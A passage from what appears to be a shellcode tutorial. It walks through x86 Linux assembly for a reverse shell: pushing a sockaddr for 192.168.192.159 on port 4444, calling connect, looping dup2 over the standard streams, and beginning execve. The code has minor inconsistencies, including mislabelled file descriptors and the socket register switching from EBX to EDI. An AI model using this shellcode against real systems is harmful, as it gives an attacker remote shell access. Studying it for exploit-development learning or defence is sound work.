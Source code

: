 ```
XOR  ECX, ECX    ; clear ECX so that we can push zero to the stack
PUSH ECX         ; push zero_sin = 0 to the stack
PUSH 0x9fc0a8c0  ; push remote IP address 192.168.192.159 to the stack ibn reverse order due to little endian
PUSH word 0x5c11 ; push hex 0x5c11 (dec 4444) in reverse oreder due to little endian
PUSH word 0x02   ; push hex 0x02 (dec 2) on the stack. 2 represents AF_INET
```

When struct is placed on the stack, ESP is pointing to the top of the stack, so we need to place address from ESP to ECX as address needs to be passed as 2nd argument to connect syscall.
Once we have struct placed on the stack we can write assembly code for connect syscall.

```
MOV EBX, EAX     ; copy value from EAX to EBX, EAX holds pointer to socket descriptor as result of socket call
MOV ECX, ESP     ; move address pointing to the top of the stack to ECX
MOV DL, 0x16     ; move value 0x16 to EDX as third parameter
INT 0x80         ; interrupt
```


Almost there.. next we need to call dup2 syscall with following arguments:
```
int dup2(int oldfd, int newfd);
```
The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.

Looking at prototype we can see that dup2() needs to be called three time, for STDIN (0), STOUT (2) and STDERR (3).

```
dup2(socketid, 0);
dup2(socketid, 1);
dup2(socketid, 2);
```

To reduce shell code size, instad of manually goind thru each dup2 syscall, we can create a loop. 
ECX register will be used as counter but also as 2nd argument to dup2 syscall.

```
MOV CL, 0x3     ; putting 3 in the counter
LOOP_DUP2:      ; loop label
XOR EAX, EAX    ; clear EAX
MOV AL, 0x3F    ; putting the syscall code in EAX
MOV EBX, EDI    ; putting our new socket descriptor in EBX
DEC CL          ; decrementing CL by one (so at first CL will be 2 then 1 and then 0)
INT 0x80        ; interrupt
JNZ LOOP_DUP2   ; "jump non zero" jumping back to the top of LOOP_DUP2 if the zero flag is not set
```

And finaly execve syscall.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```
> execve()  executes the program referred to by pathname.  
> This causes the program that is currently being run by the calling process to be replaced with a new program, 
> with newly initialized stack, heap, and (initialized and uninitialized) data segments.
> pathname must be either a binary executable, or a script starting with a line of the form: `#!interpreter [optional-arg]`.
> argv is an array of argument strings passed to the new program.  By convention, the first of these strings (i.e., argv[0]) should  contain  the  filename associated  with  the file being executed.  envp is an array of strings, conventionally of the form key=value, which are passed as environment to the new program. 
> The argv and envp arrays must each include a null pointer at the end of the array.
